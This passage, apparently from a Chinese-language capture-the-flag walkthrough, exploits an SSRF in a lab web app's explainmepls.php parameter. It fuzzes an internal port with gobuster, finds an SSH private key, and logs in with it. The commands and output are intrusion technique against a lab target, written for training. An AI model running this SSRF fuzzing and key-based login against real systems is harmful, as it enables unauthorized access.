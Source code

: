 查看一下这个端口下有无相关的信息

```bash
gobuster fuzz -u "http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:6969/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c "PHPSESSID=olis0nc010av7pg4shf5rutt0i" -a "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527075.png" alt="image-20240321135307932" style="zoom:50%;" />

同样过滤一下：

```bash
gobuster fuzz -u "http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:6969/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c "PHPSESSID=olis0nc010av7pg4shf5rutt0i" -a "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" --exclude-length "1130"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527076.png" alt="image-20240321135541312" style="zoom:50%;" />

```bash
gobuster fuzz -u "http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:6969/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -b 400 -c "PHPSESSID=olis0nc010av7pg4shf5rutt0i" -a "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" --exclude-length "1130" 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527077.png" alt="image-20240321140504464" style="zoom:50%;" />

```text
Found: [Status=200] [Length=1407] [Word=codebreakers] http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:6969/codebreakers

Found: [Status=200] [Length=22090] [Word=server-status] http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:6969/server-status

Found: [Status=200] [Length=1969] [Word=%3FRID%3D2671] http://10.160.52.102/casino/explainmepls.php?learnabout=127.0.0.1:6969/%3FRID%3D2671
```

挨个查看一下：

![image-20240321140550358](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527078.png)

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527079.png" alt="image-20240321140604238" style="zoom: 50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403211527080.png" alt="image-20240321140639780" style="zoom:50%;" />

找到登录密钥了，尝试进行登录！

```bash
chmod 600 fuck_rsa
ssh shimmer@10.160.52.102 -i fuck_rsa
```
